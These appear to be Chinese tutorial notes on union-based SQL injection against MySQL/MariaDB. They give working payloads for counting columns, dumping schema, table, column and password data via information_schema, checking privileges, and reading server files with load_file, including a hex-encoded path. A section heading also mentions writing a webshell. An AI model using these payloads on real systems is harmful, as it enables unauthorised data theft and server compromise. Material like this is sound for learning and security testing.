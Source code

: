 - MariaDB数据库管理系统是MySQL的一个分支，MariaDB的目的是完全兼容MySQL，包括API和命令行，使之能轻松成为MySQL的代替品。

### union联合查询

- union联合查询适用于有显示列的注入。

- 我们可以通过order by来判断当前表的列数。Order by  3/2/1 。直接跟在注入点后面，后面的语句要注释掉。

- 我们可以通过 union 联合查询来知道显示的列数 ，union select 1,2,3.....n  ，找到哪些列的数据会被显示到页面。(union会将两个select语句的结果合并成一个集合（也就是多行数据），所以union之前的我们需要输入一个无效的用户数据）

- | **查询当前数据库名和版本** | union select database(),version(),user(),@@basedir,@@datadir  ，       @@basedir可以获取mysql的安装路径，@@datadir用来获取mysql的数据路径。 |
    | -------------------------- | ------------------------------------------------------------ |
    | **查询全部数据库名**       | SELECT       group_concat(**schema_name**) FROM **information_schema.schemata**; |
    | **爆表名注入**             | select 1,group_concat(**table_name**) from **information_schema.tables** where **table_schema**='数据库名' # |
    | **得到列名**               | union select  group_concat (column_name) from       **information_schema.columns** where **table_schema**='security'and **table_name**='users'# |
    | **爆数据**                 | select 1,count(user),count(password) from 当前数据库中的表   （或者使用group_concat爆出数据（慎用） ）       获取当前数据库中指定表的指定字段的值(只能是database()所在的数据库内的数据，因为处于当前数据库       下的话不能查询其他数据库内的数据) |

### 文件读写：写webshell，然后连接。

- 当有显示列的时候，文件读可以利用union 注入。

- 当没有显示列的时候，只能利用盲注进行数据读取。

- union注入读写文件(load_file函数和select  into outfile语句):


读文件（）

1. 可以读取敏感文件，也可以发起网络请求，dnslog

2. 条件限制：

    - 必须有权限读取并且文件必须完全可读。

    - ```
        and (select count(*) from mysql.user)>0 /*如果结果返回正常，说明具有读写权限.*/
        and (select count(*) from mysql.user)>0 /* 返回错误，应该是管理员给数据库账户降权了*/
        ```

    - 欲读取文件必须在服务器上

    - 欲读取文件必须小于max_allowed_packet　　

    - 如果该文件不存在，或因为上面的任一原因而不能被读出，函数返回空。比较难满足的就是权限。

    - 在windows下，如果NTFS设置得当，是不能读取相关的文件的，当遇到administrators才能访问的文件，users就不能实现用load_file读取文件了

3. ```mysql
    #需要知道文件的物理路径：
    union select 1,2,load_file("e:/3.txt")#， 
    可以将path转成16进制，
    `union select 1,2,load_file(0x653a2f332e747874)#`   
    e:/3.txt 转换成16进制 0x653a2f332e747874
    
    如果显示读出来的是blob二进制对象，可以使用下面这行命令转换成字符串
    select 1,2,CONVERT(load_file("d:/1.php") USING utf8mb4); 
    ```

